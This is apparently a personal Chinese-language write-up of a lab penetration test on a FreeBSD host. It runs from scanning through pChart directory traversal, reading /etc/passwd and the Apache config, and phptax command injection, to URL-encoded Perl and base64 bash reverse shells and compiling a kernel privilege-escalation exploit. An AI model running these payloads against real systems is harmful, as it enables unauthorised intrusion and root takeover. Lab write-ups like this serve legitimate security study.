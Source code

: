 


###nmap
```
Nmap scan report for 192.168.1.159
Host is up (0.00039s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:7F:0F:AE (VMware)
Aggressive OS guesses: FreeBSD 7.0-RELEASE - 9.0-RELEASE (88%), FreeBSD 9.0-RELEASE - 10.3-RELEASE (88%), FreeBSD 7.0-RC1 (86%), FreeBSD 7.1-RELEASE (86%), VMware ESXi 4.0.1 (86%), Cisco EPC3925 cable modem (86%), FreeBSD 7.0-STABLE (86%), VMware ESXi 5.0 (86%), Papouch TME Ethernet thermometer (86%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.39 ms 192.168.1.159

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.75 seconds
```

##枚举

###目录扫描
```
Target: http://192.168.1.159/

[10:24:15] Starting: 
[10:24:18] 403 -  213B  - /.ht_wsr.txt                                     
[10:24:18] 403 -  216B  - /.htaccess.bak1
[10:24:18] 403 -  216B  - /.htaccess.orig
[10:24:18] 403 -  218B  - /.htaccess.sample
[10:24:18] 403 -  216B  - /.htaccess.save
[10:24:18] 403 -  217B  - /.htaccess_extra
[10:24:18] 403 -  216B  - /.htaccess_orig
[10:24:18] 403 -  214B  - /.htaccess_sc
[10:24:18] 403 -  214B  - /.htaccessBAK
[10:24:18] 403 -  214B  - /.htaccessOLD
[10:24:18] 403 -  215B  - /.htaccessOLD2
[10:24:18] 403 -  206B  - /.htm                                            
[10:24:18] 403 -  207B  - /.html
[10:24:18] 403 -  216B  - /.htpasswd_test
[10:24:18] 403 -  212B  - /.htpasswds
[10:24:18] 403 -  213B  - /.httr-oauth
[10:24:46] 403 -  210B  - /cgi-bin/                                          
[10:24:46] 500 -  535B  - /cgi-bin/test-cgi                                  
[10:24:58] 200 -  152B  - /index.html                                        
                                                                              
Task Completed  
```
##源代码信息
```
<html>
 <head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
 </head>
```

##目录穿越漏洞
/etc/passwd文件
```
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
```

##shell
8080端口访问限制http主机头：Mozilla/4.0 Mozilla4_browser
8080端口漏洞：命令注入
```
http://192.168.1.159/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf

-----------shell----
perl%20-e%20'use%20Socket%3B%24i%3D%22192.168.1.100%22%3B%24p%3D1234%3Bsocket(S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname(%22tcp%22))%3Bif(connect(S%2Csockaddr_in(%24p%2Cinet_aton(%24i))))%7Bopen(STDIN%2C%22%3E%26S%22)%3Bopen(STDOUT%2C%22%3E%26S%22)%3Bopen(STDERR%2C%22%3E%26S%22)%3Bexec(%22sh%20-i%22)%3B%7D%3B'
```

##提权
内核提权
![634dbedcd5fb613f0211489d09b6299e.png](../../_resources/634dbedcd5fb613f0211489d09b6299e.png)


http://192.168.1.17/fristi/uploads/shell.php.gif?0=echo%20L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS4xMDAvMTIzNCAwPiYxCg==%20|%20base64%20-d%20|%20bash
![a16c9ad10bbb61df648f6e997865995e.png](../../_resources/a16c9ad10bbb61df648f6e997865995e.png)


过程：
信息收集

## 1.收集主机信息

nmap -A 192.168.1.159 --min-rate 2233 -oN nmap
![5e09e8851f9307a0ef9e77e815489726.png](../../_resources/5e09e8851f9307a0ef9e77e815489726.png) Freebsd 是unix系统标识

## 2.枚举

#枚举在windows环节较好
enum4linux-ng 192.168.1.159 

## 3.目录扫描

dirsearch -u "http://192.168.1.159/" 

## 4.查看源代码

​	获得该信息
`` <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">``
​	看上去有一个路径，路径还有像版本一样的东西。
​	搜索该信息是个什么东西，并搜索相关漏洞。然后浏览该网页看看有没有什么可利用点
​	
4-1搜索pChart
这是一个制图工具
4-2搜索其漏洞
刚好有一个版本也对得上
![e6827bc6a6b020bc61e6edab2f181520.png](../../_resources/e6827bc6a6b020bc61e6edab2f181520.png)
将该漏洞复制到当前文件夹查看
``searchsploit pChart -m 31173.txt``

有两个漏洞是我们能用的，目录穿越和反射xss。我们用目录穿越
![3d2835506f13430bf88df4f008546a6d.png](../../_resources/3d2835506f13430bf88df4f008546a6d.png)
payload如下：
``"hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd"``
有这漏洞的组件是pChart，漏洞所在组件位置
`http://192.168.1.159/pChart2.1.3/examples/`

所以拼接后成：
``http://192.168.1.159/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd``

可以看出使用了一个漏洞页面，里面有个参数能插入目录遍历漏洞%2f..%2f..%2fetc/passwd，使用效果如下
![6c4d8fd6841b584d2ce59654f61fe29b.png](../../_resources/6c4d8fd6841b584d2ce59654f61fe29b.png)

## 5.利用获取配置文件

目录遍历可以浏览服务器文件系统，现在我们的目的是，猜测服务器文件路径，读取一些配置文件，
%2f..%2f..%2fetc/passwd #获取用户信息
%2f..%2f..%2fetc/group #获取组信息
%2f..%2f..%2fetc/shadow #用户密码信息
%2f..%2f..%2fetc/sudoers #获取sudo文件
apache2/httpd.conf
apache/httpd.conf
http/httpd.conf
php/config.conf
/usr/local/etc/apache22

猜不到，可以去搜默认地址在哪里，这里搜索FreeBSD apache config dir ，意思是unix 系统 apache 配置路径
![ea0271e2239d072a0e85e7ad26cfeae9.png](../../_resources/ea0271e2239d072a0e85e7ad26cfeae9.png)
最终ip如下，谷歌搜索默认路径，然后拼接起来，继续猜配置文件在哪里
``http://192.168.1.159/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf``  #获取到配置文件信息
![f34a499a68db3bbb00cc01ff971097d4.png](../../_resources/f34a499a68db3bbb00cc01ff971097d4.png)
注意：如果找不到配置文件，也可以读取他网页代码，做审计。

### 5-1整理获取到的信息
获得到配置文件放到本地，检索信息
cat 1 | grep -v "^#" | grep -v "^$" | grep -v " #"
给他删除一些多余的

8080端口是不给访问的，而且8080通常也是http服务。但是这里看到 8080端口，还搞了个好像是正则的东西^Mozilla/4.0 Mozilla4_browser。可能只允许这个浏览器访问端口8080
![640cf9fc463e4f4774fd95def701697c.png](../../_resources/640cf9fc463e4f4774fd95def701697c.png)

把主机头改成配置文件里的头Mozilla/4.0 Mozilla4_browser

再次访问就进去了

![49b0264a316fedff5acba86c628cb321.png](../../_resources/49b0264a316fedff5acba86c628cb321.png)

都是pdf，但路径有个phptax像是组件的东西，谷歌搜索看看
**加粗文本**
![f408f49604e1133b46f15d651ec7f804.png](../../_resources/f408f49604e1133b46f15d651ec7f804.png)

 searchsploit phptax #找到漏洞有两个命令注入

![a63f603d79f4d7bedc36d95c6d5a39dc.png](../../_resources/a63f603d79f4d7bedc36d95c6d5a39dc.png)

payload如下，注入点在pfilez参数
http://localhost/phptax/drawimage.php?pfilez=xxx;%20nc%20-l%20-v%20-p%2023235%20-e%20/bin/bash;&pdf=make

利用命令注入：
ping -c 10 127.0.0.1 #延迟了返回包延迟了十秒，确定存在漏洞

反弹shell：试了一下，用的prel 弹sh的shell才成功。下面是url编码后反弹shell
```
perl%20-e%20'use%20Socket%3B%24i%3D%22192.168.1.100%22%3B%24p%3D1234%3Bsocket(S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname(%22tcp%22))%3Bif(connect(S%2Csockaddr_in(%24p%2Cinet_aton(%24i))))%7Bopen(STDIN%2C%22%3E%26S%22)%3Bopen(STDOUT%2C%22%3E%26S%22)%3Bopen(STDERR%2C%22%3E%26S%22)%3Bexec(%22sh%20-i%22)%3B%7D%3B'
```

![0bf42221e9083530ef9948c3402ddf96.png](../../_resources/0bf42221e9083530ef9948c3402ddf96.png)
连接成功

6-提权

```
6-1查找漏洞
常规选项都不行后，进行内核提权
a-之前获取到FreeBSD 9.0系统
searchsploit FreeBSD 9.0
结果：有两个
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation        | freebsd/local/28718.c
FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation  | freebsd/local/26368.c
-------------------------------------------------------------- ---------------------------------

6-2下载利用脚本
searchsploit -m 26368 28718

6-3将漏洞利用脚本上传到受害者服务器
攻击者：
nc -lvp 2233 < 26368.c
服务器：
nc 192.168.1.100 2233 > 28718.c
#把exp移到/tmp下，一般tmp目录是有权限的

6-4编译并执行
gcc 26368.c 
ls
./a.out 
id#root了！
#他这个脚本编译后，成a.out脚本真方便！
```
![f7416c9456423f158260ba12c5184709.png](../../_resources/f7416c9456423f158260ba12c5184709.png)

